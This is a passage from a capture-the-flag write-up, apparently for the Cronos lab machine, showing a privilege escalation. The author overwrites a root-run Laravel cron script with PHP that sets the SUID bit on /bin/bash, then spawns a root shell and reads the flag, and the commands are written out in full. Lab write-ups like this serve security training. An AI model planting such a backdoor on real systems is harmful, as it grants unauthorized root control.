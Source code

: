 ```sql
+----+----------+----------------------------------+
1 row in set (0.00 sec)
```

There is a cronjob running as root under the /var/www directory, which is our home’s folder.

```bash
www-data@cronos:/var/www/admin$ crontab -l
no crontab for www-data

www-data@cronos:/var/www/admin$ cat /etc/crontab 
* * * * *    root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

We have full access to the cron job script. This should be easy.

```bash
www-data@cronos:/var/www/admin$ ls -l /var/www/laravel/artisan
-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 /var/www/laravel/artisan
```

Replaced the script to create a backdoor.

```bash
www-data@cronos:/var/www/admin$ echo -e '<?php system("/bin/chmod +s /bin/bash") ?>' > /var/www/laravel/artisan
```

Successfully escalated to root and read the final flag. GGs!

```
www-data@cronos:/var/www/admin$ bash -p
bash-4.3# whoami
root

bash-4.3# cat /root/root.txt
d8b0977dd8a20348****************
```